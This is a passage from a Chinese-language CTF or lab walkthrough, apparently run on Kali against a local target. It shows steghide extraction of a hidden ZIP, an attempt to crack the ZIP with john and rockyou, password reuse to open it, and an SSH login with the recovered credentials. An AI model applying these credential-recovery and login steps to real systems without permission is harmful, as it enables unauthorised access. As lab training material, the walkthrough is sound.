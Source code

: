 ```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ steghide --extract -sf 117db0148dc179a2c2245c5a30e63ab0.jpg -p "morainelake"
wrote extracted data to "secret.zip".
```

成功提取出加密的 ZIP 压缩包。

**知识点补充**：`steghide` 支持对 JPEG、BMP、WAV、AU 格式文件进行隐写，使用 AES 加密算法保护嵌入数据。

## 2.5 ZIP 密码破解

使用 `zip2john` 提取哈希后，尝试 `john` 爆破：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ zip2john secret.zip > hash

┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
...
0g 0:00:00:00 DONE
```

使用常规字典未能破解，尝试密码复用成功解压：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret/secret.txt password: morainelake
extracting: secret/secret.txt

┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cat secret/secret.txt
morainelake:660930334
```

获得 SSH 凭证：`morainelake:660930334`。

# 三、SSH 登录与初步探测

## 3.1 SSH 连接

使用获取的凭证登录目标系统：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ ssh morainelake@192.168.205.238
morainelake@192.168.205.238's password: 
...
$ id
uid=1002(morainelake) gid=1002(morainelake) groups=1002(morainelake)
```
